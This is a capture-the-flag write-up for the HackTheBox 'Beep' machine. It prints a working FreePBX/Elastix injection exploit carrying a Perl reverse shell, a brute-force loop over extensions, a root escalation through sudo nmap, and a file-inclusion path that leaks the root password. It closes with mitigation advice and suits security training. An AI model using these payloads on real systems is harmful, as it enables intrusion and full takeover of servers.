



# Beep

As always, I start by running nmap.

While using my default parametres -sV and -sC, I did not get any response.

So I tried -Pn which just treats all hosts as online.

```
kali@kali:~/htb/Beep$ sudo nmap -Pn 10.129.84.71
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-19 11:30 EST
Nmap scan report for 10.129.84.71
Host is up (0.029s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4445/tcp  open  upnotifyp
10000/tcp open  snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 0.56 seconds

```
We discover some interesting ports. 80 and 443 signals a website. So lets go check that out.

In order to gain access to the webpage, I need to enable TLS 1.0 on my browser.

After doing that though, we are greeted with a login-page. Powered by Elastix.



I try to input some common credentials like admin/admin. Not only to see if I can get lucky, but also to see if there are some error messages for username and password that can be used with Hydra to crack it.

Nothing whatsoever. So I throw on dirbuster, and start checking manually. The first thing I try is /admin. And I get greeted by a popup login window.



I try a couple credentials again, before cancelling the popup.

This redirects me to https://10.129.84.71/admin/config.php



This also gives us a backend version. freepbx 2.8.1.4 

So lets throw both of these into searchsploit to see if we find something useful.

```
kali@kali:~/htb/Beep$ searchsploit Elastix
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                        | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities      | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilitie | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion             | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                            | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                           | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution       | php/webapps/18650.py
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
kali@kali:~/htb/Beep$ searchsploit freepbx 2.8.1.4 
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
FreePBX < 13.0.188 - Remote Command Execution (Metasploit)   | php/remote/40434.rb
Freepbx < 2.11.1.5 - Remote Code Execution                   | php/webapps/41005.txt
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

That FreePBX / Elastix RCE looks very likely. Although the FreePBX version is listed as 2.10.0, lets open it up and see what we can find.

The version is specified as: `Version: FreePBX 2.10.0/ 2.9.0, Elastix 2.2.0, possibly others.`

So our versions might match.


```
import urllib
rhost="10.129.84.71" # Target address
lhost="10.10.14.21"  # Our listening address
lport=443
extension="1000"

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib.urlopen(url)
```


What is happening here?

There is an unsanitized parameter in the recordings/misc/callme_page.php page. And this parameter ends up in the Asterisk Management Interface socket. The payload is eventually executed on the VOIP server.

The payload is URL encoded, so lets decode it and enter our variables to see what it looks like:

```
'https://10.129.84.71/recordings/misc/callme_page.php?action=c&callmenum=1000@from-internal/n
Application: system
Data: perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.14.21:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

So we are connecting back using perl.

I run the code:

```
IOError: [Errno socket error] [SSL: UNSUPPORTED_PROTOCOL] unsupported protocol (_ssl.c:727)
```

Hmm. I did have to enable TLS 1.0 earlier, maybe I need to do some additional configuring in the connection.

```
import urllib.request
import ssl

rhost="10.129.84.71" # Target address
lhost="10.10.14.21"  # Our listening address
lport=443
extension=1000

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib.request.urlopen(url, context=ssl.SSLContext(ssl.PROTOCOL_TLSv1))
```

This runs without any issue, but does not connect. Either the exploit does not work, or we have to change something with the payload.

What variables do we have?

- rhost, can't change
- lhost, can't change
- lport, can't change
- extension, can change.

So lets try changing the extension. But first we need to figure out what the extension actually is. It's essentially an additional telephone wired to the same telephone line as another. And can be up to 4 digits long. So I created a little brute-force that just runs through 0-1000. 

```
import urllib.request
import ssl

def expl(e):

    rhost="10.129.84.71" # Target address
    lhost="10.10.14.21"  # Our listening address
    lport=443
    extension = e

    # Reverse shell payload

    url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'
    
    try:
        urllib.request.urlopen(url, timeout=3, context=ssl.SSLContext(ssl.PROTOCOL_TLSv1)))
    except Exception:
        pass


extensions = list(range(0,1000))

for i in extensions:
    print(i)
    expl(i)
```

It took a while, but I got the connection on extension number 233. Probably not the fastest solution, but it worked. 

```
kali@kali:~$ sudo rlwrap nc -nlvp 443
Listening on 0.0.0.0 443
Connection received on 10.129.84.71 53861
id
uid=100(asterisk) gid=101(asterisk)
```

We set the listener, and we are in. Our user is asterisk. In the exploit page, it explicitly states that we can exploit an nmap vulnerability to gain root. So lets try that.

```
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

Why does this work?

```
cat /etc/sudoers
## Sudoers allows particular users to run various commands as
## the root user, without needing the root password.

...
...
...

asterisk ALL = NOPASSWD: /sbin/shutdown
asterisk ALL = NOPASSWD: /usr/bin/nmap
asterisk ALL = NOPASSWD: /usr/bin/yum
asterisk ALL = NOPASSWD: /bin/touch
asterisk ALL = NOPASSWD: /bin/chmod
asterisk ALL = NOPASSWD: /bin/chown
asterisk ALL = NOPASSWD: /sbin/service
asterisk ALL = NOPASSWD: /sbin/init
asterisk ALL = NOPASSWD: /usr/sbin/postmap
asterisk ALL = NOPASSWD: /usr/sbin/postfix
asterisk ALL = NOPASSWD: /usr/sbin/saslpasswd2
uucp     ALL = NOPASSWD: /bin/chmod
asterisk ALL = NOPASSWD: /usr/sbin/hardware_detector
asterisk ALL = NOPASSWD: /sbin/chkconfig

asterisk ALL = NOPASSWD: /usr/sbin/elastix-helper

``` 
Here we can see that the user asterisk, with all hosts has access to /usr/bin/nmap without having to use a password.

And lets look at the privileges of nmap:

```
cd /usr/bin
ls -la nmap
-rwxr-xr-x 1 root root 528904 Jan  6  2007 nmap
```
We can see that the file is executable by everyone. As can be seen by the last x in the permissions. But it is owned by root. So when we run nmap, and then run a shell within nmap. we are essentially running as root.

## Comparing to the official writeup:

The official writeup also used nmap to discover the webhost.

They immediatelly used dirbuster, but found the Elastix login page on the main web directory. 

They use a completely different exploit. All you need to do is to go to https://10.129.84.71/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

And in this page is a dump of a ton of information. This line gives us the password to the root account:

`# Change this to a secure password. ARI_ADMIN_PASSWORD=jEhdIekWmdjE`

And we can simply use this to get root:

```
kali@kali:~$ ssh root@10.129.84.71
The authenticity of host '10.129.84.71 (10.129.84.71)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.84.71' (RSA) to the list of known hosts.
root@10.129.84.71's password: 
Last login: Tue Sep 29 12:10:12 2020

Welcome to Elastix
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:                               
http://10.129.84.71

[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)                                                                                    
[root@beep ~]# 
```

## How to stop this exploit:

Santize inputs. Both the exploits I and the official writeup used only worked because of unsanitized inputs. 
In the exploit I used, the unsanitized input is eventaully ran locally, while the other exploit lets the attacker look at files they otherwise should not have access to.

If any of these were sanitized properly, the attacker would not get into the server.

The nmap privliege escalation can be stopped by either disabling the nmap -interactive option, or just not letting users other than root execute nmap to begin with.
